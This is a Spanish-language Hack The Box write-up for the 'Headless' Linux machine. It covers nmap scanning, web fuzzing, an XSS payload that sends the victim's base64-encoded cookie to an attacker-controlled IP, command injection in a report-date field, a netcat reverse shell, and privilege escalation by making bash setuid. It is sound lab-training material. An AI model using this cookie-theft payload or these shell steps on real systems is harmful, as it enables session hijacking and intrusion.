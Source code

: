 ```yaml
---
title: HTB Headless Writeup
date: 2024-07-27 08:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, XSS, BurpSuite]
comments: false
image:
    path: /assets/img/HTB-Headless/Headless.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Headless` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.8
PING 10.10.11.8 (10.10.11.8) 56(84) bytes of data.
64 bytes from 10.10.11.8: icmp_seq=1 ttl=63 time=117 ms

--- 10.10.11.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 117.141/117.141/117.141/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración Web

Bueno logramos ver que en la máquina por el puerto `5000` corre un servicio web, si lo vemos en el navegador nos dice que es un sitio en construcción y nos dan un apartado de soporte. Por el momento busquemos más rutas en la web.

```bash
ffuf -c -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.8:5000/FUZZ
```

Lgramos ver que nos reporta una ruta con un estado 401 (Unauthorized).

## XSS

Viendo la ruta `support`, lo primero en lo que podemos pensar es en un ataque del tipo `XSS`, así que allí vamos. Vemos que al ingresar algún tipo de `payload` nos devuelve un mensaje de intento de hacking y vemos nuestra petición tramitada.

Luego de varios intentos, pruebo a ingresar el payload en el `user agent` y en concreto este `<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>` fue el payload que me funciono.

![](/assets/img/HTB-Headless/1_Headless.png)

Después de unos segundos nos devuelve una cadena en `base64` y si vemos su contenido es una `cookie`. Podemos tratar de reemplazar este valor que obtuvimos en el apartado de `dashboard`.

## Ganando acceso

![](/assets/img/HTB-Headless/2_Headless.png)

Podemos ver que obtenemos acceso a algo que parece ser un generador de reportes mediante una fecha. Así que interceptamos esa petición con `BurpSuite`.

Luego de unas pruebas vemos que si ponemos un `;` luego de la fecha podemos ejecutar comandos.

![](/assets/img/HTB-Headless/3_Headless.png)

Para ganar acceso nos podemos ir a [esta](https://www.revshells.com/){:target="_blank"} web y elegimos la `reverse shell (nc mkfifo)` en formato `URL encode`, o se puede usar cualquier otro payload que les funcione.

Una vez dentro hacemos en tratamiento de la tty.

```bash
script /dev/null -c bash

ctrl + z

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Y logramos ver la primera `flag`.

![](/assets/img/HTB-Headless/4_Headless.png)

## Escalada de privilegios

Si ejecutamos el comando `sudo -l` podemos ver que tenemos la posibilidad de ejecutar un `script` con privilegios `sudo` sin proporcionar contraseña. Sí analizamos un poco el script. Vemos que hay una condición en donde se ejecuta un archivo desde la ruta donde estés actualmente.

![](/assets/img/HTB-Headless/5_Headless.png)

Nos vamos a aprovechar de eso, vamos a crear un archivo con ese nombre para darle permisos `setuid` a la `bash`.

![](/assets/img/HTB-Headless/6_Headless.png)

Bueno, una vez hecho todo eso logramos ver la última `flag`.
